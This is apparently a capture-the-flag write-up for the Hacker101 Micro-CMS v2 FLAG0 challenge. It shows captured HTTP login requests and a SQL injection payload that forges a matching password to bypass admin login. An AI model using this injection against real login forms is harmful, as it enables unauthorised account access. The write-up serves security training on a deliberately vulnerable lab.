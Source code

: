 # Micro-CMS v2 - FLAG0

## Step 1 : Login

- Go to Create New page.
- In-order to create a page you must login.

![](images/login.png)

## Step 2 : Get Request

- Put any random credentials and capture the request.
- You can use BurpSuite to capture the request.

**Captured Request**

```
POST /e883720fe9/login HTTP/1.1
Host: 35.190.155.168
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: http://35.190.155.168
Connection: close
Referer: http://35.190.155.168/e883720fe9/login
Upgrade-Insecure-Requests: 1

username=admin &password=password
```

## Step 3 : Create SQL Payload

- Payload: `'UNION SELECT 'hack' as password#`

```
POST /e883720fe9/login HTTP/1.1
Host: 35.190.155.168
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: http://35.190.155.168
Connection: close
Referer: http://35.190.155.168/e883720fe9/login
Upgrade-Insecure-Requests: 1

username= admin 'UNION SELECT 'hack' as password#&password=hack
```
- Open the website, in new tab.

![](images/logged_in.png)

## Step 4 : Admin Access

![](images/admin_acc.png)

- Go to Private Page

## Step 5 : Flag

![](images/FLAG.png)


**Background:** The login page is vulnerable to SQL injection when we give the username as admin' UNION SELECT "hack" as password# and password=hack. We are making the web application think that the given credentials of the admin user are same and are matched with the previous credentials in order to understand this you have to have good knowledge in SQLI.

You can learn them from the blog - https://blog.hackhunt.in/2021/08/concept-of-sql-injection.html
